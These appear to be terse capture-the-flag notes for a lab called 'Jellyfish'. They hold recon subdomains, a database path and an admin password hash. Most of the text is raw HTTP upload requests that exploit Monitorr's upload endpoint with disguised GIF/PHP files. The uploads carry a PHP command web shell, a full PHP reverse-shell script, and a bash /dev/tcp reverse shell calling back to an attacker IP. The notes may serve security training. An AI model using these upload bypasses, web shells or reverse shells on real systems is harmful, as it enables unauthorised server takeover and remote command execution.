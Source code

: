 ## Jellyfish

# Reconn


robyns-petshop.thm
monitorr.robyns-petshop.thm
beta.robyns-petshop.thm
dev.robyns-petshop.thm

## Contact Details
Phone: 01174962854<br>
Email: [staff@robyns-petshop.thm](mailto:staff@robyns-petshop.thm)

/var/www/monitorr/datausers.db

User database dir: /var/www/monitorr/data
User database file: /var/www/monitorr/datausers.db


## Payload

POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php system($_GET["c"]);?>
-----------------------------31046105003900160576454225745--




POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll5.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.9.124';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
-----------------------------31046105003900160576454225745--


admin$2y$10$q1BI3CSqToALH2Q1r2weLeRpyU7QbonizeVxJnPIieo/drbRSzVTa



view-source:https://monitorr.robyns-petshop.thm/assets/data/usrimg/she_ll5.gif.phtml?c=ls%20-al%20/opt/ssh-honeypot

cat /opt/ssh-honeypot/README.md


# FINAL PAYLOAD 

POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 320

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=reverse.gif.pHp
Content-Type: image/gif

GIF89a213213123


<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.9.124/443 0>&1'");?> 
-----------------------------31046105003900160576454225745--